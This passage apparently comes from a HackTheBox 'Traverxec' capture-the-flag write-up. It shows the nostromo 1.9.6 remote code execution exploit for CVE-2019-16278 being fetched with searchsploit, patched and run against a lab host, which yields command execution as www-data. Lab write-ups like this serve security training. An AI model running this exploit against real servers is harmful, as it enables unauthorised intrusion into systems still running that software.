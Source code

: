 Tried 

- brute force weak credentials for ssh
- check every source code from port 80 and enumerate directories

### RCE - nostromo  1.9.6

According to **nmap** or **whatweb** result, the http server on port 80 was hosted by `nostromo 1.9.6`

> https://www.exploit-db.com/exploits/47837

```bash
┌──(bravosec㉿fsociety)-[~/htb/Traverxec]
└─$ searchsploit -m 47837
  Exploit: nostromo 1.9.6 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47837
     Path: /usr/share/exploitdb/exploits/multiple/remote/47837.py
    Codes: CVE-2019-16278
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/htb/Traverxec/47837.py
```

View the exploit code

```bash
vi 47837.py
```

Found it have a typo string on line 10 : `cve2019_16278.py`, removed it

```diff
┌──(bravosec㉿fsociety)-[~/htb/Traverxec]
└─$ diff 47837.py /usr/share/exploitdb/exploits/multiple/remote/47837.py
9a10
> cve2019_16278.py
69c70
<         print(help_menu)
---
>         print(help_menu)
\ No newline at end of file
```

This exploit needs **python2** to work

```bash
┌──(bravosec㉿fsociety)-[~/htb/Traverxec]
└─$ source ~/venv-py2/bin/activate

┌──(venv-py2)─(bravosec㉿fsociety)-[~/htb/Traverxec]
└─$ python 47837.py 10.10.10.165 80 id
...

HTTP/1.1 200 OK
Date: Wed, 02 Aug 2023 08:24:53 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
